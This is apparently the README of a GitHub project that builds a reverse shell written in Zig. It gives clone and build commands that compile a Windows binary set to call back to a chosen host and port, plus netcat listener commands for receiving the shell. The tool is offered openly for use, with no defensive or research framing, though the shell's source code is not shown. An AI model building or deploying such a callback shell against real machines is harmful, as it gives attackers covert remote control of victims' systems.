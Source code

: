 # zig-shell
> simple reverse shell in zig

# usage
> download zig 0.14 from https://ziglang.org/download/ extract and add it to your path

1. `git clone https://github.com/ziggoon/zig-shell`
2. `cd zig-shell`
3. `zig build -Dos=windows -Darch=x86 -Dhost="192.168.0.1" -Dport=443`
4. binary will be output to ./zig-out/bin/ivy

build.zig options: <br/>
`os`: operating system (windows, macos, linux) <br/>
`arch`: cpu architecture (x86 or arm) <br/>
`host`: ip / fqdn for your nc listener <br/>
`port`: port for your nc listener 

nc usage:
*nix: `nc -lvnp 443`
macos: `nc -lv 443`

*note: this probably works on all operating systems and cpu architectures i just haven't tested*
